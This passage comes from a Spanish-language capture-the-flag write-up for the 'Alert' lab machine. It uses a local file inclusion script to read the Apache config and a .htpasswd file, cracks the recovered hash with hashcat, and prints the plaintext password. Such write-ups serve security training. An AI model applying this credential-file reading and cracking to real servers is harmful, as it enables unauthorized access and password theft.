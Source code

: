 ```
chmod +x lfi.py
```

Dado que el host `statistics.alert.htb` tiene contraseña, vamos a intentar encontrar su hash.

```
./lfi.py /etc/apache2/sites-enabled/000-default.conf
```

```
<VirtualHost *:80>
    ServerName statistics.alert.htb

    DocumentRoot /var/www/statistics.alert.htb

    <Directory /var/www/statistics.alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    <Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
        Require valid-user
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```

En el output encontramos que el archivo de contraseñas está en `/var/www/statistics.alert.htb/.htpasswd`.

```
./lfi.py /var/www/statistics.alert.htb/.htpasswd

albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
```

Ahora trataremos de crackear el hash con hashcat.

```
hashcat -m 1600 hash rockyou.txt
```

Un rato después, el hash ha sido descifrado y podemos ver la contraseña en texto claro.

```
hashcat hash --show

$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/:manchesterunited
```
